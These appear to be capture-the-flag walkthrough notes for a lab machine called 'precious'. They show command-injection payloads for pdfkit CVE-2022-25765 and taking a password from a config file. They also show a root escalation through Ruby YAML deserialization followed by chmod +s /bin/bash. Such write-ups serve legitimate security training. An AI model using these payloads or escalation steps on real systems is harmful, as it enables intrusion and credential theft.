 # precious

## enum

    - http web service - convert html to pdf
        - from response the lib is: pdfkit v0.8.6
        - pdfkit v0.8.6: CVE-2022-25765 command-injection
            - https://github.com/pdfkit/pdfkit/issues/517
            - command injection in url params
                - this payload: http://localhost:3000/?pwd=$(pwd)&user=$(whoami)


## pwn user

    - this payload: http://localhost:3000/?pwd=$(pwd)&user=$(whoami) cant run with the space char
        - command injection without space (payload all the thing)
        - use $IFS
    - on other hand, we can use the payload without bypass non-space-char
        - payload: http://example.com/?name=#{'%20`sleep 5`'}
        - ref: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
        - then we can have a rev shell.

    - currently we can command with ruby user.
        - enum files, we get henry's pwd in /home/ruby/.bundle/config.
        - ssh and get user.txt


## pri esc 2 pwn root

    - sudo -l
        Matching Defaults entries for henry on precious:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

        User henry may run the following commands on precious:
            (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

    - we can run sudo ruby /opt/update_dependencies.rb
        - inside update_dependencies.rb, it load the YAML
        - we'll exploit the ruby yaml rce.
            - ref: https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/
                - exploit code: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

    - we run the command: chmod +s /bin/bash
        - then run bash -p to run with root
        - with this mode we:
            - Turn on privileged mode.
            - If the shell is started with the effective user (group) id not  equal
                        to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. 
            - in the simple word, we run with max pri. In this case is root.
    - finally we got root :).